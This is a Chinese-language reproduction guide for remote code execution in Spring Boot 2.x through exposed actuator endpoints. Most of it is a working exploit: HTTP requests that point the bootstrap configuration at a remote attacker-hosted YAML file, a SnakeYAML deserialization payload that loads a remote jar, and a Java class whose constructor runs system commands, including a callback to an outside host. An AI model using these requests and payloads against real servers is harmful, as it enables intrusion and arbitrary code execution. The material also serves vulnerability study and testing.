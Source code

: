 Spring Boot 修改环境属性导致的rce
=================================

一、漏洞简介
------------

二、漏洞影响
------------

Spring Boot 2.x

三、复现过程
------------

环境下载 https://github.com/ianxtianxt/actuator-testbed

    POST /env HTTP/1.1
    Host: 127.0.0.1:8090
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 59
     
    spring.cloud.bootstrap.location=http://artsploit.com/yaml-payload.yml

该请求修改了"
spring.cloud.bootstrap.location"属性，该属性用于加载外部配置并以YAML格式解析它。为了做到这一点，我们还需要调用"
/ refresh"端点。

    POST /refresh HTTP/1.1
    Host: 127.0.0.1:8090
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0

从远程服务器获取YAML配置时，将使用SnakeYAML库进行解析，该库也容易受到反序列化攻击。有效载荷（yaml-payload.yml）可以通过使用前述的Marshalsec研究生成：

    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
      ]]
    ]

该文件的反序列化将触发提供的URLClassLoader的ScriptEngineManager构造函数的执行。简而言之，它导致了\*\*\'java.util.ServiceLoader＃load（java.lang.Class
，java.lang.ClassLoader）\'\*\*方法，该方法试图在所有库中查找\'ScriptEngineFactory\'接口的所有实现。在类路径中。由于我们可以通过URLClassLoader添加新的库，因此我们可以在其中包含恶意字节码的情况下为新的\'ScriptEngineFactory\'提供服务。为此，我们需要使用以下必需文件创建一个jar归档文件：https://github.com/ianxtianxt/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java应该包含实际的字节码，并在构造函数中带有恶意负载。

    public class AwesomeScriptEngineFactory implements ScriptEngineFactory {
     
        public AwesomeScriptEngineFactory() {
            try {
                Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
                Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
            } catch (IOException e) {
                e.printStackTrace();
            }

https://github.com/ianxtianxt/yaml-payload/blob/master/src/META-INF/services/javax.script.ScriptEngineFactory应该只是一个包含对\'artsploit.AwesomeScriptEngineFactory\'的完整引用的文本文件，以便ServiceLoader知道在哪里可以找到该类：**artsploit.AwesomeScriptEngineFactory**同样，这种利用技术要求弹簧云位于类路径中，但是与Eureka的XStream有效负载相比，它甚至可以在最新版本中使用
